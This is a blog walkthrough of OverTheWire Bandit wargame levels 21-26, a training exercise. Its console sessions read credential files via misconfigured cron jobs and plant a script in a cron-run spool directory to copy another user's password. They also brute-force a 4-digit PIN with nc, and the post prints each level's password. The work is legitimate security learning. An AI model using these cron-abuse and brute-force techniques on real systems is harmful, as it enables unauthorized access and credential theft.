 ```yaml
---
layout: post
title: "OverTheWire: Bandit 21-26"
date: 2016-10-21 12:00:00
share: true
comments: true
---
```


## Bandit 21

Very easy level, you'll need to read about cron, but for now first paragraph of this [link ](https://help.ubuntu.com/community/CronHowto)will do:

```
 "Cron is a system daemon used to execute desired tasks (in the background) at
 designated times.
 
 A crontab file is a simple text file containing a list of commands meant to be
 run at specified times. It is edited using the crontab command. The commands
 in the crontab file (and their run times) are checked by the cron daemon,
 which executes them in the system background."
```

First, let's see which cron job is being executed for bandit 22:


```console
bandit21@melinda:~$ cd /etc/cron.d
bandit21@melinda:/etc/cron.d$ ls
behemoth4_cleanup cronjob_bandit23    leviathan5_cleanup  natas-session-toucher natas25_cleanup~ php5    semtex0-ppc vortex0
cron-apt      cronjob_bandit24    manpage3_resetpw_job natas-stats      natas26_cleanup  semtex0-32 semtex5   vortex20
cronjob_bandit22  cronjob_bandit24_root melinda-stats     natas25_cleanup    natas27_cleanup  semtex0-64 sysstat

bandit21@melinda:/etc/cron.d$ cat cronjob_bandit2
cat: cronjob_bandit2: No such file or directory
bandit21@melinda:/etc/cron.d$ cat cronjob_bandit22
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

What does `/usr/bin/cronjob_bandit22.sh` do?

```console
bandit21@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

First line after the sha-bang gives the temp file the following permissions: user can write, anyone can read. So we're able to read the content of that file.
Second line copies the content of /etc/bandit_pass/bandit22 (containing our password) to the temporary file. Check it's content and you'll find the password to the next level!

Password: `Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI`

___________________________________________

## Bandit 22

Same steps as earlier, let's see what the script /usr/bin/cronjob_bandit23.sh
does:

```console
bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

So we need to get the MD5 encoding of $target (which is "I am user bandit23"),
then read the content of `/tmp/MD5output`:

```console
bandit22@melinda:/etc/cron.d$ md5sum <<< $(echo I am user bandit23)
8ca319486bfbbc3663ea0fbe81326349 -
bandit22@melinda:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@melinda:/etc/cron.d$
```

___________________________________________

## Bandit 23

More of the same, let's see what the script does:

```console
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
timeout -s 9 60 "./$i"
rm -f "./$i"
fi
done
```

So it navigates to `/var/spool/bandit24` directory and executes all scripts as bandit24. Alright, so we need to make it write the content of `/etc/bandit_pass/bandit24` somewhere, maybe a temporary file? Make sure you give the script and the folder the correct permissions.

```console
bandit23@melinda:/etc/cron.d$ mkdir /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ chmod 777 /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ cd /tmp/somefunnyname
bandit23@melinda:/tmp/somefunnyname$ cat > torun.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/somefunnyname/password
^C
bandit23@melinda:/tmp/somefunnyname$ chmod 777 torun.sh
bandit23@melinda:/tmp/somefunnyname$ cp torun.sh /var/spool/bandit24/
bandit23@melinda:/tmp/somefunnyname$ ls -al /var/spool/bandit24/
total 153
drwxrwxrwx 2 bandit24 bandit23 151552 Oct 21 23:08 .
drwxr-xr-x 6 root   root    4096 May 3 2015 ..
bandit23@melinda:/tmp/somefunnyname$ ls
password torun.sh
bandit23@melinda:/tmp/somefunnyname$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Script got deleted, which means cron executed it and we got our password!

___________________________________________

## Bandit 24

Our first bash for loop! You may want to read more about it [here](http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-7.html).

First let's see how the daemon behaves. You'll realize it allows multiple input, we can create a list with format "&lt;password&gt; &lt;pin&gt;" for 0000-9999 and feed it to NC. Let's create a temp directory and navigate to it:

```console
bandit24@melinda:/tmp/abatchy24$ `for i in $(seq 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >>list.txt; done  `
bandit24@melinda:/tmp/abatchy24$ `head list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9
bandit24@melinda:/tmp/abatchy24$ `tail list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
bandit24@melinda:/tmp/abatchy24$ `nc -nv 127.0.0.1 30002 < list.txt | grep -v Wrong`
Connection to 127.0.0.1 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Exiting.
```

Done.

___________________________________________

## Bandit 25

Just another SSH key, but you may want to look into /etc/passwd file...

___________________________________________

## Bandit 26

Research escaping restrcited shell ;)
